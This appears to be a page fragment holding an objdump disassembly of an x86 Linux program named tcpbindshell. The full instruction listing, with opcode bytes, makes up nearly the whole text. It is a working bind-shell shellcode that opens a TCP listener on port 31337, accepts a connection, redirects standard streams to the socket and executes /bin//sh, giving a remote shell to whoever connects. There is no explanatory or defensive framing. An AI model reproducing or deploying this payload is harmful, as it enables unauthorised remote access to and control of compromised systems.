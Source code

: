 ```
$ objdump -D tcpbindshell -M intel
	
tcpbindshell:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:   31 c0                   xor    eax,eax
 8048062:   31 db                   xor    ebx,ebx
 8048064:   31 c9                   xor    ecx,ecx
 8048066:   31 d2                   xor    edx,edx
 8048068:   b0 66                   mov    al,0x66
 804806a:   b3 01                   mov    bl,0x1
 804806c:   51                      push   ecx
 804806d:   6a 06                   push   0x6
 804806f:   6a 01                   push   0x1
 8048071:   6a 02                   push   0x2
 8048073:   89 e1                   mov    ecx,esp
 8048075:   cd 80                   int    0x80
 8048077:   89 c6                   mov    esi,eax
 8048079:   b0 66                   mov    al,0x66
 804807b:   b3 02                   mov    bl,0x2
 804807d:   52                      push   edx
 804807e:   66 68 7a 69             pushw  0x697a
 8048082:   66 53                   push   bx
 8048084:   89 e1                   mov    ecx,esp
 8048086:   6a 10                   push   0x10
 8048088:   51                      push   ecx
 8048089:   56                      push   esi
 804808a:   89 e1                   mov    ecx,esp
 804808c:   cd 80                   int    0x80
 804808e:   b0 66                   mov    al,0x66
 8048090:   b3 04                   mov    bl,0x4
 8048092:   6a 01                   push   0x1
 8048094:   56                      push   esi
 8048095:   89 e1                   mov    ecx,esp
 8048097:   cd 80                   int    0x80
 8048099:   b0 66                   mov    al,0x66
 804809b:   b3 05                   mov    bl,0x5
 804809d:   52                      push   edx
 804809e:   52                      push   edx
 804809f:   56                      push   esi
 80480a0:   89 e1                   mov    ecx,esp
 80480a2:   cd 80                   int    0x80
 80480a4:   89 c3                   mov    ebx,eax
 80480a6:   31 c9                   xor    ecx,ecx
 80480a8:   b1 03                   mov    cl,0x3
080480aa :
 80480aa:   fe c9                   dec    cl
 80480ac:   b0 3f                   mov    al,0x3f
 80480ae:   cd 80                   int    0x80
 80480b0:   75 f8                   jne    80480aa
 80480b2:   31 c0                   xor    eax,eax
 80480b4:   52                      push   edx
 80480b5:   68 6e 2f 73 68          push   0x68732f6e
 80480ba:   68 2f 2f 62 69          push   0x69622f2f
 80480bf:   89 e3                   mov    ebx,esp
 80480c1:   52                      push   edx
 80480c2:   53                      push   ebx
 80480c3:   89 e1                   mov    ecx,esp
 80480c5:   52                      push   edx
 80480c6:   89 e2                   mov    edx,esp
 80480c8:   b0 0b                   mov    al,0xb
 80480ca:   cd 80                   int    0x80
```